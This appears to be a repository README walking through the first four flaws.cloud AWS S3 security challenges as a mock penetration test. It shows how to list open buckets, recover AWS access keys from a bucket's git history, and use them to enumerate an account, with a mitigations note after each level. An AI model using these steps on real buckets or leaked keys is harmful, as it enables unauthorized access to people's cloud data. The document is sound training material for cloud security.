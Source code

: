 # AWS S3 Security Challenges

## Abstract
*Amazon Simple Storage Service* (Amazon `S3`) is a highly scalable and versatile cloud storage service offered by Amazon Web Services (`AWS`).  
It allows organizations to store and retrieve vast amounts of data, making it an integral component of modern cloud computing infrastructures.  
*Security* is of paramount importance when it comes to S3, as it stores critical data for businesses and individuals alike.  
S3 security measures are crucial to protect sensitive information from unauthorized access, data breaches, and accidental exposure.  
AWS offers a range of security features, such as access control lists, bucket policies, and encryption, to ensure that data stored  
in S3 remains confidential, integrity is maintained, and accessibility is well-controlled.  
Establishing robust S3 security practices is essential for safeguarding valuable digital assets in the cloud.  

<br/>

In this repository, we will explore a series of challenges related to S3 by leveraging [flaws.cloud](http://flaws.cloud).  

## Prerequisites
- [aws cli](https://aws.amazon.com/cli/)
- [aws account](https://aws.amazon.com/free/?trk=94cafeff-9d62-4c32-8799-45290b4f160b&sc_channel=ps&ef_id=EAIaIQobChMIrtnukMWxggMVVIVoCR1cRgT0EAAYASAAEgJfl_D_BwE:G:s&s_kwcid=AL!4422!3!566381912849!p!!g!!account%20aws!15451025651!135687769812&all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=*all&awsf.Free%20Tier%20Categories=*all) (you can leverage a free trial account)  


## Challenges  
> **Note**
> To add depth and realism to the scenario, we will structure our challenge by assuming that flaws.cloud is a web service  
> for which a customer has requested a black box **Vulnerability Assessment & Penetration Testing (VAPT)**.  
> In this approach, we will have no prior information beyond the target domain, making the engagement more challenging and realistic.  

<br/>

> **Note**
> All challenges are dependent on one another so proceed in order.  

<details>
<summary>CHALLENGE 1</summary>

L'ets begin.  
As we are aware, the only information available to us is that the service is exposed at the URL http://flaws.cloud:  

<img src="images/flaws-website.png" alt="flaws.cloud" width="3000" height="290">  


The initial step we can take is to perform a DNS lookup to gather additional information:  
```console
nslookup flaws.cloud

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.251.58
Name:	flaws.cloud
Address: 52.92.164.35
Name:	flaws.cloud
Address: 52.218.183.19
Name:	flaws.cloud
Address: 52.92.229.67
Name:	flaws.cloud
Address: 52.218.179.83
Name:	flaws.cloud
Address: 52.92.148.203
Name:	flaws.cloud
Address: 52.92.250.3
Name:	flaws.cloud
Address: 52.92.177.187
```  
The reason why the `nslookup` command returns multiple IP addresses for a domain is because many websites  
and services are hosted on multiple servers for redundancy and load balancing.  
This means that the same domain name (in this case, "flaws.cloud") can resolve to multiple IP addresses.  

The purpose of this approach is to ensure high availability and better distribution of traffic.  
Let's take a random IP address from the list and try to execute a DNS lookup on that:  
```console
nslookup 52.92.148.203

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
203.148.92.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```  

This is an interesting information.  
`name = s3-website-us-west-2.amazonaws.com`: This line provides the result of the reverse DNS lookup.  
It reveals that the IP address `52.92.148.203` is associated with the domain name `s3-website-us-west-2.amazonaws.com`.  
This means that if you were to access the URL associated with this IP address, it would likely lead you to an Amazon Web Services (AWS) `S3`  
website hosted in the US West (Oregon) region.  
The same DNS lookup result applies to every other IP addresses taken from the above output.  


> **Note**
> All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS.  
> In this case, flaws.cloud can also be visited by going to http://flaws.cloud.s3-website-us-west-2.amazonaws.com.  
> That is the reason why S3 bucket names must be unique world-wide and they must follow DNS name rules.  

Let's do a recap of what we know so far:  
We know that we have a bucket named `flaws.cloud` in `us-west-2`  
<br/>

Given that, we can attempt to browse the bucket by using the aws cli by running:  
```console
aws s3 ls s3://flaws.cloud

2017-03-14 04:00:38       2575 hint1.html
2017-03-03 05:05:17       1707 hint2.html
2017-03-03 05:05:11       1101 hint3.html
2020-05-22 20:16:45       3162 index.html
2018-07-10 18:47:16      15979 logo.png
2017-02-27 02:59:28         46 robots.txt
2017-02-27 02:59:30       1051 secret-dd02c7c.html
```  
Very good, we are able to list this bucket contents!  
Feel free to take a look at all the files in the bucket...  
the most interesting one seems to be `secret-dd02c7c.html`, let's inspect this:  
```html
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html -

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>%
```  

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that on AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files.  
A number of people accidentally open them up with permissions that are too loose.  
By default, S3 buckets are private and secure when they are created.  
To allow it to be accessed as a web page, you have to turn on `Static Website Hosting` and changed the aws  
bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page.  
But then you can introduce the flaw if you change the permissions to add `Everyone` to have `List` permissions.

> **Warning**
> "Everyone" means everyone on the Internet!



</details>

<br/>

<details>
<summary>CHALLENGE 2</summary>

Now we can procede with the second challenge.  

> **Note**
> This challenge is similar to the first one but you will need an aws accout.  


We know that the link to the new bucket is http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

2017-02-27 03:02:15      80751 everyone.png
2017-03-03 04:47:17       1433 hint1.html
2017-02-27 03:04:39       1035 hint2.html
2017-02-27 03:02:14       2786 index.html
2017-02-27 03:02:14         26 robots.txt
2017-02-27 03:02:15       1051 secret-e4443fc.html
```  

Once again we notice that there is a *secret* html file, let's cat is content:  

aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html -  
```html
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>%
```   

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that similar to opening permissions to `Everyone` in the previous bucket/challenge, people accidentally open permissions to `Any Authenticated AWS User`.  

> **Warning**
> They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account!



</details>

<br/>

<details>
<summary>CHALLENGE 3</summary>

Now we can procede with the third challenge.  
We know that the link to the new bucket is http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud  

                           PRE .git/
2017-02-27 01:14:33     123637 authenticated_users.png
2017-02-27 01:14:34       1552 hint1.html
2017-02-27 01:14:34       1426 hint2.html
2017-02-27 01:14:35       1247 hint3.html
2017-02-27 01:14:33       1035 hint4.html
2020-05-22 20:21:10       1861 index.html
2017-02-27 01:14:33         26 robots.txt
```  
This time we notice something different: there is a `.git` folder!  
A `.git` folder within a directory typically indicates that the directory is a Git repository.  
`Git` is a distributed version control system commonly used for tracking changes in source code and managing collaborative software development projects.  
The `.git` folder contains all the information and data necessary for Git to manage version control for the files and directories within that repository.  
It includes information about commits, branches, history, configuration settings, and more.  
There are probably interesting things in this folder...let's download the full bucket content with the following command:  
```console
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --region us-west-2

download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/description to .git/description
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/applypatch-msg.sample to .git/hooks/applypatch-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-applypatch.sample to .git/hooks/pre-applypatch.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/commit-msg.sample to .git/hooks/commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-commit.sample to .git/hooks/pre-commit.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-rebase.sample to .git/hooks/pre-rebase.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/prepare-commit-msg.sample to .git/hooks/prepare-commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/update.sample to .git/hooks/update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df to .git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/info/exclude to .git/info/exclude
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25 to .git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b to .git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to .git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/refs/heads/master to .git/logs/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c to .git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2 to .git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c to .git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to .git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526 to .git/objects/c2/aab7e03933a858d1765090928dca4013fe2526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to .git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to .git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to .git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to .git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```  
Now we are inside the git folder and we can inspect git logs:  
```console
git log

commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```  
The log shows 2 commit and one have a suspicious message associated with it: `Oops, accidentally added something I shouldn't have`.  
Let's checkout the commit before that and take a look around at that point in the git history:  
```console
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61 && ls

M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit

access_keys.txt         authenticated_users.png hint1.html              hint2.html              hint3.html              hint4.html              index.html              robots.txt
```  

Interesting...there is an `access_keys.txt` file in the repository!  
Let's inspect that:  
```console
cat access_keys.txt

access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```  
It's a good day to be a pentester, we found a set of aws [keys](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html)!  

let's use them to see if we can do something!  
```console
export AWS_ACCESS_KEY_ID=AKIAJ366LIPB4IJKT7SA
export AWS_SECRET_ACCESS_KEY=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
aws sts get-caller-identity

{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}

```  

The output of the above command shows that we are now impersonating the `arn:aws:iam::975426262029:user/backup` [IAM](https://aws.amazon.com/iam/?trk=e7f9b09d-7bd6-4855-9dba-72c6bc2af630&sc_channel=ps&ef_id=EAIaIQobChMI6M_L-dKxggMVblBBAh1FEw9aEAAYASAAEgL2Z_D_BwE:G:s&s_kwcid=AL!4422!3!651510173475!e!!g!!amazon%20iam!19828210056!146491523705) identity.  
This is a user from the customer's aws account!  
Let's check the user attached policies:  
```console

aws iam list-attached-user-policies --user-name backup

An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam::975426262029:user/backup is not authorized to perform: iam:ListAttachedUserPolicies on resource: user backup because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  
We are not lucky this time but maybe with can list more bucket with the current identity:  
```console
aws s3 ls

2020-06-25 19:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-27 01:06:07 config-bucket-975426262029
2020-06-27 12:46:15 flaws-logs
2020-06-27 12:46:15 flaws.cloud
2020-06-27 17:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 17:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 17:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 17:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 17:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-28 04:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```  
Yes! We can list buckets that we couldn't before!  
Now we know where `level4` is located.  

**Security Mitigations**:  
We need to explain to our customer that People often leak AWS keys and then try to cover up their mistakes without revoking the keys.  
You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced.  
Roll your secrets early and often and [use roles instead of keys whenever possible](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html).  

> **Warning**
> If sensitive information or secrets are accidentally leaked and committed to a Git repository, simply removing them in a new commit is not sufficient.  
> These secrets can still exist in the repository's history, and they may be accessible to anyone with access to that repository.  
> If you accidentally committed a secret, consider rewriting your Git history to remove any traces of it.  
> Tools like git-filter-branch and git-rebase can help, but use them with caution as they can be complex and have implications on collaboration.  



</details>

<br/>

<details>
<summary>CHALLENGE 4</summary>

Now we can procede with challenge 4.  
We know that the link to the new bucket is http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud.  

> **Note**
> For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud  
> It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.  
> Also you need the aws keys retrieved in the previous challenge.  

If we open a browser to `4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud` we are presented with a login page:  
<img src="images/challenge4-login-page.png" alt="flaws.cloud" width="3000" height="290">  

We need to retrieve the right credentials in order to sign-in.  
The challenge tip informs us that we are dealing with a backup of an [EC2](https://aws.amazon.com/ec2/) instance, and if we recall from the previous challenge, the username was indeed `backup`.  
Let's see if we can list the backups/snapshots of the EC2 instance using the AWS CLI:  
```console
 aws  ec2 describe-snapshots --owner-ids 975426262029

{
    "Snapshots": []
}
```  

Mmmm it seems that, as of 07/11/2023, there are no snapshots.  
Maybe we can describe instances?  
```console
aws ec2 describe-instances

{
    "Reservations": []
}
```  
No luck either 😞  
Maybe the maker of flaws.cloud deleted them...no much else we can do here.  
Our customer can sleep peaceful dreams... for now.  




</details>

<br/>


